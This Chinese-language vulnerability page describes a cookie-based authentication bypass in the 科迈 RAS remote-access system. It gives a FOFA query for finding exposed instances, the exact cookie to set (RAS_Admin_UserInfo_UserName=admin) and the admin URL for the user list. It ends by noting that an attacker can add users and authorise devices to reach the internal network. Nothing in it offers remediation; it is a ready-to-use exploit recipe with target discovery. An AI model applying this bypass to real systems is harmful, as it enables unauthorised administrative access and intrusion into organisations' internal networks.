 # 科迈 RAS系统 Cookie验证越权漏洞

## 漏洞描述

科迈 RAS系统 存在Cookie验证越权，当 RAS_Admin_UserInfo_UserName 设置为 admin 时可访问后台

## 漏洞影响

<a-checkbox checked>科迈 RAS系统</a-checkbox></br>

## FOFA

<a-checkbox checked>app="科迈-RAS系统"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313112037353.png)



添加Cookie

```plain
RAS_Admin_UserInfo_UserName=admin
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313112037181.png)



访问 `/Server/CmxUser.php?pgid=UserList`



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313112037479.png)



获取后可以添加用户，授权登陆设备直接接入内网